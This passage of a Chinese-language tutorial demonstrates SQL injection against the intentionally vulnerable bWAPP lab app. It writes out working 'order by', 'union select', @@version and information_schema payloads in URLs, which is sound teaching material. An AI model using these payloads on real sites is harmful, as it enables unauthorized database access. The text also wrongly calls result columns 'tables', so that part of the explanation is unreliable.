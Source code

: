 ![](img/e775c7de-ddd0-4fee-9860-7bcdeea5202e.png)

输出表明至少有七个表。我们可以通过在 URL 中使用`order by 7-- -`来判断这一点。请注意，在下一步中，当我们调整 URL 以检查其他表时，会出现一个错误。

9.  让我们使用以下 URL 检查是否有八个表：`http://192.168.56.101/bWAPP/sqli_1.php?title=1' order by 8-- -`。如我们所见，返回了一条错误消息：

![](img/323bc279-8d5e-47ba-bb84-da0593b1a62a.png)

因此，我们可以确认我们有七个表。

10.  现在，我们可以将 URL 调整为`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,2,3,4,5,6,7-- -`。下面的屏幕截图显示了结果。web 应用程序（bWAPP）返回同一行中的值`2`、`3`、`5`和`4`。因此，我们可以确定表`2`、`3`、`4`和`5`容易受到攻击：

![](img/98ad17d6-f08d-4d9e-84de-871bb24941c2.png)

11.  为了检查数据库版本，我们可以在下面的 URL 中用`@@version`代替易受攻击的表，得到`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1, @@version,3,4,5,6,7-- -`：

![](img/dd33688b-c824-4c75-ae8a-c456bba50eac.png)

12.  我们现在可以尝试使用以下 URL`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,table_name,3,4,5,6,7 from information_schema.tables-- -`获取表名：
